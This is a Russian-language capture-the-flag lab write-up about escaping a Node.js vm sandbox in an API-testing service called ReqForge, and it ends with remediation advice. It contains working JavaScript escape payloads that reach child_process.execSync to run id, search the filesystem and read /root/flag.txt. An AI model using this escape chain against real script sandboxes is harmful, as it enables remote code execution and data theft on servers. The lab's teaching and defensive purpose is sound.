









# Lab 129 — ReqForge — RCE через побег из VM-песочницы

## Описание задачи

| Параметр | Значение |
|---|---|
| **Название** | ReqForge Sandbox Escape (Node.js vm) |
| **Сложность** | Medium |
| **Категория** | Web, API, RCE |



**Описание:** Уязвимость, возникающая из-за небезопасного использования модуля `vm` в Node.js для изоляции пользовательских скриптов. Из-за передачи внешних объектов в контекст песочницы, злоумышленник может выбраться из нее, получить доступ к глобальному объекту `process` и выполнить произвольные системные команды.

---

## 1. Первичный осмотр сайта

При переходе на целевую машину открывается сервис **ReqForge** — платформа для разработки и тестирования API.


Ключевой особенностью является редактор скриптов (Pre-request и Post-response), который позволяет автоматизировать рабочие процессы.



---

## 2. Разведка и анализ API

В ходе изучения интерфейса был обнаружен функционал написания скриптов. Согласно документации платформы, скрипты выполняются в изолированной среде (sandbox) и имеют доступ к определенному набору объектов.



Было выяснено, что в контекст выполнения скриптов внедряются объекты `helpers`, `request`, `response` и другие. Это стало главной зацепкой: передача любых объектов, созданных вне песочницы, позволяет добраться до их цепочки прототипов.

---


## 3. Теория уязвимости (Node.js vm Sandbox Escape)

Название лаборатории напрямую описывает суть атаки. В оригинальной уязвимости Hoppscotch (CVE-2024-34347) песочница была реализована через стандартный модуль Node.js `vm`.

В нашем случае:

- **Песочница (Sandbox)** ожидает выполнения локального кода и не подозревает подвоха.
- **Злоумышленник** использует цепочку прототипов внедренного объекта для доступа к конструктору `Function`.

### Почему это работает?

Модуль `vm` официально признан небезопасным для запуска недоверенного кода из-за нескольких особенностей:

#### 1. Доступ к внешнему конструктору

Любой объект в JavaScript имеет свойство `constructor`, которое указывает на функцию, создавшую объект. Свойство `constructor` самой функции — это глобальный конструктор `Function`.

#### 2. Создание функции из строки

Конструктор `Function` позволяет создавать новые функции из строк. Код, переданный в `Function('...')`, выполняется в глобальном контексте.

```javascript
// Получение внешнего глобального объекта через конструктор
outside = helpers.constructor.constructor('return this')()
```

## 4. Перехват и первичный тест

Для проверки гипотезы в **Pre-request Script** был отправлен запрос. Скрипт пытается выбраться из песочницы через объект `helpers`, получить доступ к глобальному объекту `process` и выполнить системную команду `id`.



**Разбор скрипта по частям:**

1. `helpers` — это объект, который был передан в песочницу извне (из основного процесса Node.js). Именно из-за того, что он создан *снаружи*, у него сохраняется ссылка на внешнюю цепочку прототипов.
2. `helpers.constructor` — обращается к функции-конструктору, создавшей объект. Для обычного объекта это будет `Object`.
3. `helpers.constructor.constructor` — обращается к конструктору уже самой функции `Object`. В JavaScript `Object.constructor === Function`, поэтому на этом шаге мы получаем глобальный конструктор `Function`.
4. `Function('return this')` — создает новую функцию из строки. Код внутри исполняется в глобальном контексте, поэтому `this` будет ссылаться на глобальный объект (в Node.js это `global`).
5. `()` в конце — немедленно вызывает созданную функцию. В результате переменная `outside` теперь хранит ссылку на **внешний** глобальный объект, находящийся за пределами песочницы.
6. `outside.process` — получаем доступ к объекту `process` реального Node.js-процесса.
7. `.mainModule.require('child_process')` — через `require` главного модуля подгружаем встроенный системный модуль `child_process`, который позволяет запускать команды ОС.
8. `.execSync('id')` — синхронно выполняет системную команду `id`.
9. `.toString()` — преобразуют вывод команды в строку.

Ответ сервера



### Догадка о векторе атаки подтверждена: песочница пробита.

---


## 5. Эксплуатация и получение флага

### Шаг 1. Поиск файла с флагом

Так как точный путь к флагу заранее неизвестен, первым делом выполним команду `find`, чтобы найти файлы, в названии которых есть слово `flag`. Для этого снова используем уже известный вектор побега и передаем в `execSync` команду поиска:



```javascript
outside = helpers.constructor.constructor('return this')()
const findResult = outside.process.mainModule.require('child_process')
    .execSync('find / -iname "*flag*" 2>/dev/null').toString()
```

**Разбор эксплоита:**
- Первая строка — это уже отработанная цепочка `helpers.constructor.constructor('return this')()`, которая даёт нам внешний глобальный объект.
- `outside.process.mainModule.require('child_process')` — подгружает модуль для запуска команд.
- `.execSync('find / -iname "*flag*" 2>/dev/null')` — запускает утилиту `find`, которая рекурсивно обходит всю файловую систему `/`, ищет файлы, содержащие `flag` в имени (без учета регистра), а `2>/dev/null` скрывает ошибки доступа к системным директориям, чтобы лог не засорялся.
- `.toString()` — преобразуют вывод команды в строку.

В логах среди системных файлов мы видим искомый файл:
`/root/flag.txt`



### Шаг 2. Чтение флага

Теперь, зная точный путь, меняем команду в `execSync` на `cat`, чтобы прочитать содержимое:



```javascript
outside = helpers.constructor.constructor('return this')()
const flag = outside.process.mainModule.require('child_process')
    .execSync('cat /root/flag.txt').toString()
console.log(flag)
```

**Разбор эксплоита:**
- Цепочка побега (`outside`) и получение `child_process` — те же.
- `.execSync('cat /root/flag.txt')` — выполняет системную команду чтения файла по известному пути.
- `.toString()` — возвращает содержимое файла в виде строки.
- `console.log(flag)` — выводит флаг в панель Script Output.



После отправки запроса в логах отобразился секретный флаг. Задача решена.

---

## Итоговая цепочка атаки

```text
Изучение сайта ReqForge
        ↓
Анализ доступных объектов в песочнице (Scripting API)
        ↓
Догадка о доступе к глобальному контексту через внедренные объекты
        ↓
Использование объекта helpers для доступа к constructor.constructor
        ↓
Получение внешнего глобального объекта (global)
        ↓
Вызов child_process.execSync() (RCE)
        ↓
Поиск файла с флагом (find)
        ↓
Чтение файла /root/flag.txt (cat)
        ↓
Получение флага
```

---

## Выводы и рекомендации

- **Проблема:** использование встроенного модуля `vm` для изоляции недоверенного кода. Передача любых внешних объектов (например, `helpers`) в контекст песочницы позволяет обойти ограничения через цепочку прототипов.
- **Рекомендации по устранению:**
  - Отказаться от модуля `vm` для изоляции скриптов. Использовать безопасные альтернативы, такие как библиотека `isolated-vm`.
  - Внедрить флаг `--enable-scripting` для CLI/серверной части и отключать выполнение скриптов по умолчанию.
  - Изолировать процесс выполнения скриптов на уровне ОС (например, запускать их в отдельном контейнере/песочнице без доступа к файловой системе).
  - Не передавать в контекст `vm` объекты, созданные снаружи, если они не заморожены (`Object.freeze`) и не лишены прототипов.
